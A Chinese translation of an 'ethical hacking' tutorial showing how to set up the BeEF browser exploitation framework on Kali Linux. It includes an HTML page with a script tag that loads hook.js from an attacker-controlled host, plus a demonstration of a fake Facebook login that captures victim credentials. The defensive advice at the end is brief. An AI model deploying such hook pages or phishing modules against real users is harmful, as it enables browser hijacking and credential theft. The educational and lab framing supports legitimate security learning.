

# 浏览器开发框架(BeEF)

> 原文：<https://levelup.gitconnected.com/ethical-hacking-part-12-browser-exploitation-framework-beef-b5a45ccef1bc>

## 道德黑客了解风险，以防止攻击-远程控制用户的浏览器！


到目前为止，在我的文章中报道的所有攻击中，我认为这是我最糟糕的一次。我不喜欢它，因为它很难预防。我展示的其他攻击让您看到了隧道尽头的曙光，也就是说，如果您知道攻击是什么，您就可以采取措施来防止它。据我所知，阻止这种攻击的唯一方法是让用户的浏览体验受到极大的限制，这并不好玩。

## 浏览器开发框架(BeEF)

BeEF 捆绑了 Kali Linux。我将假设您有访问 Kali Linux 实例的权限，如果没有，我建议您按照我的另一篇文章“Ethical Hacking(第 2 部分):介绍 Kali Linux ”来设置它。你也可以[在这里](https://beefproject.com/)下载其他版本的 Linux。

BeEF 在 Kali Linux 中的位置是，“ **/usr/share/beef-xss** ”。

```
root@kali:~# **cd /usr/share/beef-xss**
root@kali:/usr/share/beef-xss#
```

我们需要配置 BeEF，然后才能使用它。请打开“**/usr/share/beef-XSS/config . YAML**”，这是一个回到“**/etc/beef-XSS/config . YAML**”的符号链接。

```
root@kali:/usr/share/beef-xss# **vi /etc/beef-xss/config.yaml**
```

请找到配置的“**凭证**部分。

```
credentials:
        user:   "beef"
        passwd: "beef"
```

这些是我们将用来访问框架 GUI 的凭证。除非你改变这些，否则牛肉不会开始。我建议将用户名和密码都改为非标准的强密码。

请找到配置的“ **http** ”部分。

```
http:
        debug: false #Thin::Logging.debug, very verbose. Prints also full exception stack trace.
        host: "0.0.0.0"
        port: "3000"
```

您需要设置您的 Kali Linux 服务器的主机 IP，黑客攻击的浏览器将连接回该服务器。在我的例子中，我将主机设置为“ **192.168.1.2** ”。

现在运行牛肉…

```
root@kali:/usr/share/beef-xss# **./beef** [22:07:06][*] Browser Exploitation Framework (BeEF) 0.5.0.0
[22:07:06]    |   Twit: [@beefproject](http://twitter.com/beefproject)
[22:07:06]    |   Site: [https://beefproject.com](https://beefproject.com)
[22:07:06]    |   Blog: [http://blog.beefproject.com](http://blog.beefproject.com)
[22:07:06]    |_  Wiki: [https://github.com/beefproject/beef/wiki](https://github.com/beefproject/beef/wiki)
[22:07:06][*] Project Creator: Wade Alcorn ([@WadeAlcorn](http://twitter.com/WadeAlcorn))
-- migration_context()
   -> 0.0032s
[22:07:06][*] BeEF is loading. Wait a few seconds...
[22:07:09][*] 8 extensions enabled:
[22:07:09]    |   Proxy
[22:07:09]    |   Demos
[22:07:09]    |   XSSRays
[22:07:09]    |   Events
[22:07:09]    |   Admin UI
[22:07:09]    |   Social Engineering
[22:07:09]    |   Network
[22:07:09]    |_  Requester
[22:07:09][*] 303 modules enabled.
[22:07:09][*] 1 network interfaces were detected.
[22:07:09][*] running on network interface: 192.168.1.2
[22:07:09]    |   Hook URL: [**http://192.168.1.2:3000/hook.js**](http://192.168.1.2:3000/hook.js)
[22:07:09]    |_  UI URL:   [**http://192.168.1.2:3000/ui/panel**](http://192.168.1.2:3000/ui/panel)
[22:07:09][*] RESTful API key: 43f6880f37e0c0b41b1e98935862bb2cf6a63266
[22:07:09][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[22:07:09]    |_  Run geoipupdate to install
[22:07:09][*] HTTP Proxy: [http://127.0.0.1:6789](http://127.0.0.1:6789)
[22:07:09][*] BeEF server started (press control+c to stop)
```

两个重要的信息是:

*   **挂钩网址**:[http://192 . 168 . 1 . 2:3000/Hook . js](http://192.168.1.2:3000/hook.js)
*   **UI 网址**:[http://192 . 168 . 1 . 2:3000/UI/panel](http://192.168.1.2:3000/ui/panel)

“ **Hook URL** ”是您需要尝试并让您的受害者运行的 Javascript。你可以看看一些先进的东西，如 XSS，但真正可怕的是，你浏览的任何页面都可以在脚本标签中包含这一点，以允许完全访问你的机器！

“**UI URL”**是 BeEF 的 GUI，一旦一个毫无防备的浏览器连接上来，我们就可以在这里监视并实施攻击。

为了演示这一点，我将创建一个名为“**beef.html**”的非常基本的 HTML 页面来加载 Javascript。这可以放在网络服务器上，放在文件服务器上，通过电子邮件发送给某人等等。如果有人打开这个文件，他们将被攻击。不会给出警告，浏览器不会抱怨，病毒扫描程序也不会检测到它:(

```
<html>
<head>
  **<script src="**[**http://**](http://81.134.45.18:3000/hook.js)[**192.168.1.2**](http://192.168.1.2:3000/ui/panel)[**:3000/hook.js**](http://81.134.45.18:3000/hook.js)**" type='text/javascript'></script>**
</head>
<body>
  If you are reading this you are about to be attacked!
</body>
</html>
```

我把 beef.html**保存在桌面上，双击打开。**


我一打开它，就可以看到牛肉控制台报告了新的连接。

```
[22:19:31][*] New Hooked Browser [id:3, ip:192.168.1.1, browser:C-86.0.4240.80, os:OSX-], hooked domain [Unknown:0]
```

让我们打开“ **UI 网址**看看吧。



使用来自“ **config.yaml** ”的凭证登录。


首先，只要点击连接的主机，就会显示受害者的大量信息。

请点击“**命令**选项卡。


每个部分都有大量的选项，但我只指出几个。


如你所见，很多选择！

我将演示其中几个是如何工作的。

**浏览器，挂钩域，创建警报对话框**


我将“**执行**”并将“**牛肉警报对话框**”的“**警报文本**”发送到我的受害者浏览器。


**社会工程，漂亮盗窃**


我将在我的受害者浏览器中弹出一个看起来像脸书登录页面的窗口。


我将添加一些假凭证，看看会发生什么。


可以看到“**user@domain.com**”和“ **secretpw** ”被记录了下来！

从许多流行服务上的虚假会话超时，到上传漏洞的虚假 Flash 更新模式，访问网络摄像头，截图，播放声音，创建用户，等等，这里有大量令人讨厌的选项。

## 抵御牛肉

有一些浏览器扩展有助于防止牛肉攻击。它们使用起来并不那么愉快，因为它涉及到“**白名单**”在网站上运行的安全 Javascript。

**铬**

*   [无脚本套件精简版](https://chrome.google.com/webstore/detail/no-script-suite-lite/ahnanjpbkghcdgmlchbcfoiefnifjeni)
*   [纯素食者](https://chrome.google.com/webstore/detail/vegan/longcaclchhmdpgcdjicmaghmpbdidlj?hl=en-US&gl=US)

**火狐**

*   [无脚本套件精简版](https://addons.mozilla.org/en-GB/firefox/addon/no-script-suite-lite-revived/)

这两个都不是很好，会导致正常浏览的问题。如果有人知道任何防止牛肉攻击的好方法，请留下评论:)

为了进一步阅读，看看我写的关于这个话题的 19 个故事。


迈克尔·惠特尔

## 道德黑客培训课程

[View list](https://whittle.medium.com/list/ethical-hacking-training-course-710769700b83?source=post_page-----b5a45ccef1bc--------------------------------)19 stories

# 迈克尔·惠特尔

*   ***如果你喜欢这个，请*** [***跟我上媒***](https://whittle.medium.com/)
*   ***更多有趣的文章，请*** [***关注我的刊物***](https://medium.com/trading-data-analysis)
*   ***有兴趣合作吗？*** [***我们上领英***](https://www.linkedin.com/in/miwhittle/) 连线吧
*   ***支持我和其他媒体作者*** [***在此报名***](https://whittle.medium.com/membership)
*   ***请别忘了为文章鼓掌:)←谢谢！***